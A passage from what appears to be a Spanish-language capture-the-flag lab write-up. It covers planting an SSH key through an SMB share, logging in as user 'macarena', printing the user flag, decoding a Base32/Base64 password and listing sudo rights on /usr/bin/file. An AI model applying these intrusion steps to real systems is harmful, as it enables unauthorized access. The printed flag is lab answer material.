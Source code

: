```
.                                   D        0  Mon Aug 19 13:54:53 2024
  ..                                  D        0  Mon Aug 19 13:50:20 2024
  authorized_keys                     A      738  Mon Aug 19 13:54:53 2024
  id_rsa.pub                          A      738  Mon Aug 19 13:52:42 2024

		100856592 blocks of size 1024. 79538604 blocks available
```

Ahora ya podremos conectarnos por ssh mediante nuestra `id_rsa` de la siguiente forma.

## SSH

```shell
ssh -i ~/.ssh/id_rsa macarena@<IP>
```

Hecho eso seremos el usuario `macarena` dentro del `ssh` y leeremos la flag.

> user.txt

```
ef65ad731de0ebabcb371fa3ad4972f1
```

## Escalate Privileges

Si queremos hacer `sudo -l` nos pedira la contarseña, pero no servira la de `samba` que era `donald` tendremos que obtener la contraseña de `macarena` dentro del `ssh`, por lo que haremo lo siguiente.

Si nos vamos a `/home/secret` veremos en su contendio un archivo llamado `hash` que si lo leemos pone lo siguiente.

```
MMZVM522LBFHUWSXJYYWG3KWO5MVQTT2MQZDS6K2IE6T2===
```

Parece estar codificado pero de 2 formas diferentes, primero lo tendremos que decodificar en `Base32` y obtendremos esto:

```
c3VwZXJzZWN1cmVwYXNzd29yZA==
```

Ahora esto lo decodificaremos en `Base64` y obtendremos esto:

```
supersecurepassword
```

Por lo que vemos es la contraseña de `macarena` y si ahora probamos hacer `sudo -l` poniendo la contraseña `supersecurepassword` veremos que funciona y veremos lo siguiente.

```
Matching Defaults entries for macarena on ea4ae144953a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User macarena may run the following commands on ea4ae144953a:
    (ALL : ALL) /usr/bin/file
```

